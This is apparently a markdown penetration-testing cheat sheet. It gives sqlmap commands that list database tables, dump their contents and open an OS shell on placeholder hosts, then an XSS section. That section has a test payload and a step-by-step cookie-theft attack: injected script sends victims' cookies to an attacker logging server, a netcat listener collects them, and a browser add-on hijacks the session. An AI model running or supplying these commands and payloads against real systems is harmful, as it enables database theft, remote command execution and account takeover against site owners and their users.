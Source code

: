 **Get Tables in a Database**

```
sqlmap -r login.req -D dbname --tables    #determine the tables:
sqlmap -u "http://10.10.10.10/file.php?id=1" -D dbname --common-tables    #if tables not available, guess tables using common names
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname --tables        #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname --tables #POST Method
```

**Get data in a Database tables**

```
sqlmap -r login.req -D dbname -T table_name --dump
sqlmap -u "http://10.10.10.10/file.php?id=1" -p id -D dbname -T table_name --dump      #GET Method
sqlmap -u "http://10.10.10.10/login.php" --data="user=admin&password=admin" -D dbname -T table_name --dump   #POST Method
```

**Get OS-Shell**

```
sqlmap -u "http://10.10.10.10/file.php?id=1" --os-shell
```

**XSS**



Check an example:

```
<script>alert("hack :)")</script>
```

**Hijack cookie through xss**

there are four components as follows:

* attacker client pc
* attacker logging server
* vulnerable server
* victim client pc

1. attacker: first finds a vulnerable server and its breach point.
2. attacker: enter the following snippet in order to hijack the cookie kepts by victim client pc (p.s.: the ip address, 192.168.99.102, belongs to attacker logging server in this example):

```
<script>var i = new Image();i.src="http://192.168.99.102/log.php?q="+document.cookie;</script>
```

3. attacker: log into attacker logging server (P.S.: it is 192.168.99.102 in this example), and execute the following command:

```
nc -vv -k -l -p 80
```

4. attacker: when victim client pc browses the vulnerable server, check the output of the command above.
5. attacker: after obtaining the victim’s cookie, utilize a firefox’s add-on called Cookie Quick Manager to change to the victim’s cookie in an effort to hijack the victim’s privilege.
